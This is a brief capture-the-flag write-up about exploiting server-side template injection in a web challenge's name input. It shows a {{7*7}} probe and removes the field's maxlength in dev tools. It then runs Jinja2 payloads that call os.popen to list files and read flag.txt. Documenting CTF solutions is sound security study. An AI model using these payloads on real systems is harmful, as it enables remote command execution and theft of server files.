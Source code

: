 In this challenge, we have a prompt based from this we can identify if its vulnerable to some kind of injections. I test several injection techniques, until I found a SSTI with this payload.
```python
{% raw %}{{7*7}} //result will be 49{% endraw %}
```
```
<input type="text" id="warrior_name" name="warrior_name" class="nes-input" required="" placeholder="Enter your name..." maxlength="30" style="background-color: rgba(17, 24, 39, 0.95);">
```
Testing SST payloads from [ssti payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md), but the thing is the input have character limits. Based from the source code its 30 characters max length.

To bypass this we can modify the maxlength in dev tools, leave it as blank. Then inject our SSTi payload into name input to read the current directory of the system.
``` python
{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}{% endraw %}
```

![](assets/posts/cyberApocalypse/assets/web/fire2.png)

We got the flag :)
``` python
{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}{% endraw %}
```